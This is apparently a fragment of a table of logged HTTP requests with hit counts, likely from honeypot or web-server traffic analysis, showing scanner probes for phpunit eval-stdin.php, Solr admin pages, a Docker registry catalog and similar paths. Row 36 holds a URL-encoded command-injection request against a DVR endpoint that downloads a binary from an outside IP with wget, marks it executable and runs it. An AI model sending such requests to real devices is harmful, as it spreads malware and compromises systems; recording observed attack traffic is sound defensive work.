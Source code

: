 |  28 |                     5 | OPTIONS / RTSP/1.0                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
|  29 |                     5 | OPTIONS / HTTP/1.0                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
|  30 |                     4 | GET /console/ HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
|  31 |                     4 | GET /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
|  32 |                     4 | GET /solr/admin/info/system HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
|  33 |                     4 | GET /v2/_catalog HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
|  34 |                     4 | GET /cgi-bin/authLogin.cgi HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
|  35 |                     4 | GET /solr/admin/cores?action=STATUS&wt=json HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
|  36 |                     4 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F193.31.6.52%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                            |
|  37 |                     4 | GET /query?q=SHOW+DIAGNOSTICS HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |